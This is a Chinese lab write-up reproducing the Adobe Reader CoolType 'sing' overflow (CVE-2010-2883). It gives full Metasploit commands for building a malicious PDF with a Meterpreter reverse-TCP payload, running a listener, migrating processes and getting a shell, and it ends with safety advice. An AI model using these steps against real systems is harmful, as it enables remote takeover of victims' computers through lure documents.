





# [漏洞复现]CVE-2010-2883 Adobe Reader 打开 pdf 电脑即刻中招 - ESHLkangi - 博客园

> 原文：[`www.cnblogs.com/ESHLkangi/p/9150906.html`](https://www.cnblogs.com/ESHLkangi/p/9150906.html)

1、漏洞概述：

CVE-2010-2883 漏洞原理：“Adobe Reader 在处理 CoolType 字体文件的 sing 表时，存在栈溢出漏洞，当打开特制的恶意 PDF 文件时，可允许任意代码远程执行。”

影响版本：Adobe Reader 8.2.4 - 9.3.4

2、实验环境

攻击机：kali linux 2017

靶机：win 7 + Adobe Reader 9.3

3、实验工具：

链接: https://pan.baidu.com/s/1sQOxcGlb8r095e1oCBipPg 密码: 5fta

4、漏洞复现

在 win 7 安装好 Adobe Reader 9.3 


 进入 kali，使用 Metasploit 生成 PDF 木马文件

```
打开 msf
root@kali:~# msfconsole
搜索 Adobe 渗透模块
msf > search adobe_cooltype_sing
调用渗透模块
msf > use exploit/windows/fileformat/adobe_cooltype_sing
查看模块详情
msf exploit(adobe_cooltype_sing) > info
```


```
调用攻击载荷，反向连接到攻击机
msf exploit(adobe_cooltype_sing) > set payload windows/meterpreter/reverse_tcp
设置 kali 的 IP 地址
msf exploit(adobe_cooltype_sing) > set LHOST 192.168.190.130 设置本地监听端口
msf exploit(adobe_cooltype_sing) > set LPORT 8888 设置带有后门程序的 PDF 文件
msf exploit(adobe_cooltype_sing) > set FILENAME GeekFZ.pdf
执行渗透生成文件
msf exploit(adobe_cooltype_sing) > exploit 
```


 将 PDF 木马文件拷贝到 kali linux 的桌面

```
root@kali:~# cp /root/.msf4/local/GeekFZ.pdf /root/桌面/GeekFZ.pdf
```


 Metasploit 开启 shell 监听会话，等待肉鸡上线

```
返回
msf exploit(adobe_cooltype_sing) > back
使用 handler 模块
msf > use exploit/multi/handler 
回弹一个 tcp 连接
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
设置监听 IP 地址（跟 PDF 木马文件一样，即 kali 的 IP）
msf exploit(handler) > set LHOST 192.168.190.130 设置监听的端口（跟 PDF 木马文件一样）
msf exploit(handler) > set LPORT 8888 开启监听
msf exploit(handler) > exploit 
```



将 PDF 木马文件拷贝到 win 7 并打开




 kali 成功获取 shell


 到 session 中连接它，并用 Meterpreter 控制肉鸡

```
查看 sessions
msf exploit(handler) > sessions
连接 session
msf exploit(handler) > sessions -i 2
```



注：考虑到这个漏洞利用过程，adobe reader 会“卡壳”退出，所以需要快速切换到其他系统进程，这样会话才不会丢失。 

```
获取进程
meterpreter > ps
切换进程
meterpreter > migrate 3688
```




```
获取 Dos shell
meterpreter > shell
```



实验总结：

可以看到，最终由于 Adobe Reader 存在 CVE-2010-2883 这个高危漏洞，导致电脑打开特殊定制的 pdf 之后，直接变成肉鸡。与之前文章中的 Office 和 Flash 0day 漏洞类似，真实环境下，很多黑客会利用此方法，结合社会工程学，例如通过诱导邮件、各种论坛、QQ 群、微信群等多渠道，诱导用户下载并打开，而只要打开的用户，就直接中招。

在这里也呼吁大家：平常要非常小心陌生办公文件，无论是 pdf 还是 word 等，打开之前一定要明确来源，或者用杀毒软件先杀毒，再打开。另外，就是尽量保证电脑的软件处于最新版，这样才能最大程度降低被攻击的几率。